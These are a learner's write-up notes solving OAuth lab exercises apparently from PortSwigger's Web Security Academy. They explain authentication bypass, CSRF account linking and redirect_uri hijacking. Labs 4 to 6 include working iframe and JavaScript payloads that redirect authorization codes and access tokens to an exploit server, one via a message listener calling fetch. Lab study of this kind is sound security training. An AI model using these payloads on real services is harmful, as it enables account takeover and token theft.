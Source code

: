 1. This lab has a simple implementation of using OAuth 2.0 for user authentication. It works by establishing an access token with the oauth provider, then using it to retrieve user information and attempting to login with that user information. By resending the login request (to the `/authenticate` endpoint) with another user's email address, the other information isn't verified and we are logged into the victim's account
2. Already solved
3. This lab is about using CSRF in order to attach your own social media account to the admin's blog account. This is done by initiating the account linking process, but dropping the request to `/oauth-linking`. By doing this, the code is not used and is therefore still valid. At this point a normal CSRF attack can be performed via something like an iframe in order to complete the linking request within the victim's session. This works because there is no `state` parameter being used in the oauth flow, and as a result logging in with your social media account will now log you in as the victim
4. This lab takes advantage of a lack of validation on the `redirect_uri` paramter. As a result, a CSRF attack can be used to initiate an oauth flow with a redirect uri that points to the exploit server. From there, the code can be recovered and used for the 2nd half of the authorization flow on the target website, signing on as the victim user. The following iframe causes the CSRF attack:
```
<iframe src=https://oauth-ac4b1fca1fc70b52c082166f02900004.web-security-academy.net/auth?client_id=spk3gb76er7lf812k1e1x&redirect_uri=https://exploit-ac471f611f4e0b11c0d2163201660064.web-security-academy.net/oauth&response_type=code&scope=openid%20profile%20email></iframe>
```
The stolen code can be used to navigate to the following endpoint to complete sign in: `https://acce1fac1f360b55c02716a2002e00e3.web-security-academy.net/oauth-callback?code=[CODE HERE]`
5. This lab is about utilizing an open redirect within the victi page along with improper validation of the `redirect_uri` in order to steal a user's access token. While this lab does compare `redirect_uri` values against a whitelist, it allows arbitrary endings including path traversal sequences. Additionally, the victim page has an open redirect vulnerability at `/post/next?path=<redirect here>`. These can be combined to use CSRF to force a victim user to start an oauth flow and steal their access token as follows:
```
<script>
if (!document.location.hash)
window.location = "https://oauth-aced1f191e9ece46c0f59ee202ea0070.web-security-academy.net/auth?client_id=ifzvmj2iaen7vuxjogb9k&redirect_uri=https://ac471fcc1ee4cecfc0269e0a009b00d2.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-ac451f7d1e6dcecac0649e3e01060038.web-security-academy.net/exploit&response_type=token&nonce=-1106232448&scope=openid%20profile%20email";
else
window.location = '/?' + document.location.hash.substr(1);
</script>
```
The access token can be retrieved from the server logs, and can be used to access the `/me` endpoint and retrieve their API key to solve the lab
6. This lab is about utilizing a path traversal vulnerability in the `redirect_uri` parameter along with the fact that the comment form page sends its full URI within a web message to its parent. As a result, an oauth flow can be started via CSRF with a `redirect_uri` pointing to the comment post form. From there, a message listener can be set up to listen for the URI and send it to the server logs for extraction. This provides the victim's access token, which can be used with the `/me` endpoint in order to steal their API key. The following payload performs the CSRF and listens for the message:
```
<iframe src="https://oauth-ac231f621e56e160c0da329702cd00ae.web-security-academy.net/auth?client_id=rh2cmz4h8ao79kqcwdlob&redirect_uri=https://aceb1f6d1e56e1bdc001325a007d00d9.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=1288180421&scope=openid%20profile%20email"></iframe>
<script>
window.addEventListener('message', function(e) {fetch('/' + encodeURIComponent(e.data.data))}, false)
</script>
```

# OpenID Connect
1. This lab cannot be solved without Burp Pro due to networking restrictions on the lab's end preventing access to the public internet except for Burp Collaborator
